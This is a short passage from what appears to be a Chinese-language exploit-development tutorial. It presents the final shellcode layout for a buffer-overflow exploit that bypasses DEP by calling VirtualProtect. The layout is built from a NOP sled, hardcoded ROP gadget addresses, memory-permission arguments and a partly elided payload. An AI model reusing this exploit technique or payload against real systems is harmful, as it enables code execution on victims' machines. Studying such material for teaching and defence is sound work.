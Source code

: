 
最终 shellcode 如下所示。

```c
char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"……" 
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0A\x1A\xBF\x7C"//pop pop pop retn
"\xBA\xD9\xBB\x7C"//修正 EBP
"\x8B\x17\x84\x7C"//RETN
"\x90\x90\x90\x90"
"\xBF\x7D\xC9\x77"//push esp jmp eax
"\xFF\x00\x00\x00"//修改内存大小
"\x40\x00\x00\x00"//可读可写可执行内存属性代码
"\xBF\x7D\xC9\x77"//push esp jmp eax
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE8\x1F\x80\x7C"//修改内存属性
"\x90\x90\x90\x90"
"\xA4\xDE\xA2\x7C"//jmp esp
"\x90\x90\x90\x90"
"\x90\x90\x90\x90" 
"\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"……"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
; 
```


<img src="images/09/利用virtualprotect绕过dep的shellcode布局.png">
